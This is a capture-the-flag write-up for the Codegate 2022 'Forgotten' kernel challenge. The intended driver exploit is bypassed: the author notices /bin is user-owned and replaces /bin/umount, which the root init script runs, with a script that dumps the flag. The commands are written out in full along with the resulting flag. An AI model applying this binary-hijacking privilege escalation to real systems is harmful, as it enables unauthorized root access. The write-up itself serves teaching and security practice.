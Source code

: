 # Forgotten

**Author**: [Nspace](https://twitter.com/_MatteoRizzo)

**Tags:** pwn

**Points:** 1000 (1 solve)

**Description:** 

> i'm live in the wild.

The challenge files contain a Linux VM (kernel image + initramfs) and a customized Qemu. The Qemu patch is included and adds a custom PCI device. The challenge also includes a driver (1153 lines of C) for the custom device, which is built into the kernel. The flag is in the initramfs, and can only be read by root.

We have access to an unprivileged shell, and the intended solution is to become root by exploiting memory corruption in the custom driver.

Fortunately for us there is also a much easier way to solve this challenge:

```
Initialization is done. Enjoy :)
/ $ ls -la
...
drwxrwxr-x    2 user     user             0 Nov 22 07:37 bin
...
```

The `/bin` directory is owned by our user 👀. It appears that the author has... _forgotten_... to change the owner of some directories to root. That means that we can delete and create files there. At boot the VM executes the following init script as root:

```sh
#!/bin/sh

mknod -m 0666 /dev/null c 1 3
mknod -m 0660 /dev/ttyS0 c 4 64

mount -t proc proc /proc
mount -t sysfs sysfs /sys
mount -t tmpfs tmpfs /tmp

cat <<!
Initialization is done. Enjoy :)
!

chown root /flag
chmod 400 /flag
echo 1 > /proc/sys/kernel/kptr_restrict

mknod /dev/cgs-3d0 c 246 0
setsid cttyhack setuidgid 1000 /bin/sh

umount /proc
umount /sys

poweroff -f
```

The script invokes `umount` (`/bin/umount`) and `poweroff` (`/bin/poweroff`) as root after our unprivileged shell exits. Since we own `/bin`, we can simply delete `/bin/umount` and replace it with a script that prints the flag.

```
/ $ rm /bin/umount
/ $ echo '#!/bin/sh' > /bin/umount
/ $ echo 'cat /flag > /dev/ttyS0' >> /bin/umount
/ $ chmod +x /bin/umount
/ $ exit
codegate2022{86776b92d17cd0dbceaf835d981a31f940c7f9e24613d4a261a2d38545218fc35b116036ea2989821248908e9984e0ee8272b3e85db10377f22e91adf990f73ff3c9c1a4e4c62784}
codegate2022{86776b92d17cd0dbceaf835d981a31f940c7f9e24613d4a261a2d38545218fc35b116036ea2989821248908e9984e0ee8272b3e85db10377f22e91adf990f73ff3c9c1a4e4c62784}
```